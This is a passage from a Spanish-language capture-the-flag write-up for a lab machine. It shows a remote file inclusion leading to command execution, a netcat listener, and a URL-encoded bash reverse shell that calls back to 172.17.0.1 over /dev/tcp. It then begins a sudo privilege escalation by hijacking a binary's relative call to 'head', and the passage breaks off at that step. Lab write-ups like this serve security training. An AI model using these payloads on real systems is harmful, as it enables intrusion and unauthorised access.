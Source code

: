 ```bash
Otro párrafo de ejemplo.
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Intrusion
Tenemos ejecucion remota de comandos, Ahora nos toca ganar acceso al objetvio
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
http://trackedvuln.dl/index.php?love=http://172.17.0.1/cmd.php&cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---
## Escalada de Privilegios
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Listando los permisos para este usuario tenemos los siguientes:
```bash
sudo -l

User www-data may run the following commands on 7d69a5078740:
    (norberto) NOPASSWD: /usr/bin/baner
```

Tenemos un bianrio **baner** que tenemos que investigar como funciona: Si listamos su contenido podemos ver lo siguiente:
```bash
sudo -u norberto /usr/bin/baner

Ejecutando 'head' con ruta absoluta:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

Ejecutando 'head' con ruta relativa:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

Ahora sabiendo que ejcuta el binario de **head** con ruta relativa nos aprovehcamos de esto para crear un binario **head** que nos otorgue una sesion como el usuario **norberto**
En **/tmp**
```bash
touch head
```
